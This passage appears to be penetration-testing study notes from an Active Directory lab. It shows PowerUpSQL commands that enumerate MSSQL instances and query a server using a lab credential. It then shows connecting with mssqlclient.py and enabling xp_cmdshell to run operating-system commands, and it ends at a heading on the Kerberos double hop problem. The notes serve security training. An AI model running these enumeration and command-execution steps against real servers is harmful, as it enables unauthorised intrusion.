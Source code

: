 ### **Enumerating MSSQL Instances with PowerUpSQL**

```powershell
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```

```powershell
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'

VERBOSE: 172.16.5.150,1433 : Connection Success.

Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...
```

From linux using `mssqlclient.py`

- `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth`

then we can run os command using

- `SQL> enable_xp_cmdshell`
- `SQL>` `xp_cmdshell whoami /priv`

# **Kerberos "Double Hop" Problem**

![Untitled](.gitbook/assets/ACTIVE%20DIRECTORY%20Enum%20&%20Attacks%204af4b148af5740d1a6a92a3c741df505/Untitled%2013.png)
